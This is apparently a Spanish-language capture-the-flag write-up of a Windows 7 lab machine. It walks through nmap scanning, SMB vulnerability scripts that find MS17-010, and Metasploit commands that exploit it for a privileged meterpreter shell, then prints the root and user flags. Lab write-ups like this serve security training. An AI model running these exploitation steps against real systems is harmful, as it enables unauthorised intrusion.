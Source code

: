 
![[ 20250709103540.png]](blue-images/20250709103540.png)

# Nmap

empezamos con un escaneo de puertos básicos con nmap 

```bash
nmap -p- --open --min-rate 5000 -sS -n -Pn 10.129.211.94 -oN scanner
```

![[ 20250709103640.png]](blue-images/20250709103640.png)

seguimos con un escaneo de servicios y versiones con nmap

```bash
nmap -p135,139,445,49152,49153,49154,49155,49156,49157 -sCV 10.129.211.94 -oN targeted
```

![[ 20250709103734.png]](blue-images/20250709103734.png)

aqui ya podemos ver la version windows 7 professional y vemos un usuario haris

# Autorecon

![[ 20250709103919.png]](blue-images/20250709103919.png)

vemos el resultado de _full_tcp_nmap.txt_ y comprobamos que esta corriendo `Microsoft Windows 7|2008|8.1|2012|Vista|2016|10`

buscamos informacion en google

![[ 20250709104045.png]](blue-images/20250709104045.png)

vemos que puede ser vulnerable a varias cosas asi que veamos con nmap scripts si nuestra victima es vulnerable

# Nmap scripts smb

lo primero es ver que scripts tenemos disponibles en nmap

```bash
ls /usr/share/nmap/scripts/ | grep smb
```

![[ 20250709104221.png]](blue-images/20250709104221.png)

vemos varias pero las señaladas son las mas interesantes debido el resultado de la búsqueda en google

probamos 

```bash
nmap -p445 --script smb-vuln-ms10-061,smb-vuln-ms10-054,smb-vuln-ms17-010 -sV 10.129.211.94
```

![[ 20250709104411.png]](blue-images/20250709104411.png)

vemos que es vulnerable a la vulnerabilidad `ms17-010`

# Metasploit

abrimos metasploit 

```bash
msfdb run
```

buscamos por la vulnerabilidad ms17-010

```bash
search ms17-010
```

![[ 20250709104602.png]](blue-images/20250709104602.png)

podemos ver varios resultados

en mi caso elijo el modulo en la posición 0 ya que es el primero que aparece en caso de no funcionar seguiría probando con el resto

```bash
use 0
```

cambiamos el rhosts por la Ip victima (para ver las opciones de lo que podemos cambiar debemos usar el comando `options`)

```bash
set rhosts IPVICTIMA
```

con esto listo lanzamos el exploit

```bash
exploit
```

![[ 20250709104843.png]](blue-images/20250709104843.png)

conseguimos una terminal como meterpreter con privilegios absolutos

# Flags

## Root

en el directorio `C:\Users\Administrator\Desktop` encontramos `root.txt`

![[ 20250709105020.png]](blue-images/20250709105020.png)

root : fb20701fe3f28b9fbffcb452c7d6434a
## User

en el directorio `C:\Users\haris\Desktop` encontramos `user.txt`

![[ 20250709105122.png]](blue-images/20250709105122.png)

user : 894ecdaf91fbd5713acf4fb76827d805

